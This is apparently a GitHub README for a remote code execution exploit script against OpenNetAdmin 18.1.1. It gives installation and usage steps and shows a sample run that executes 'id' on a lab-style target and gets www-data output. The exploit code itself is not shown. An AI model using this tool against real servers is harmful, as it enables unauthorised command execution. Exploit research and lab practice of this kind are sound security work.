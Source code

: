 # OpenNetAdmin 18.1.1 - Remote Code Execution

### Installation:
> git clone https://github.com/MAALP1225/Openadmin-18.1.1.git

> chmod +x openadmin.sh

> Bash openadmin.sh



### Usage:
> bash openadmin.sh

> Enter Target IP:- http://10.10.10.171/ona/

> Enter command :- id

> output :-uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Poc:
![alt text](https://github.com/MAALP1225/Openadmin-18.1.1/blob/master/github%20POC.png)



### Disclaimer:

All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
